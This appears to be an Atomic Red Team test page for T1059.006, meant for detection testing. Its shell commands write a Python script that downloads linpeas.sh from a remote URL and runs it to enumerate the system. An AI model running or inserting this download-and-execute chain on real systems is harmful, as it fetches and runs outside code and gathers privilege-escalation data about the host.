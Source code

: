 


<br/>
<br/>

## Atomic Test #2 - Execute Python via scripts
Create Python file (.py) that downloads and executes shell script via executor arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 6c4d1dcb-33c7-4c36-a8df-c6cfd0408be8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Python script name | path | T1059.006.py|
| script_url | Shell script public URL | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | string | T1059.006-payload|
| executor | Payload or script interpreter / executor | string | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|


#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python #{python_script_name}
```

#### Cleanup Commands:
```sh
rm #{python_script_name} #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Requires Python
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```
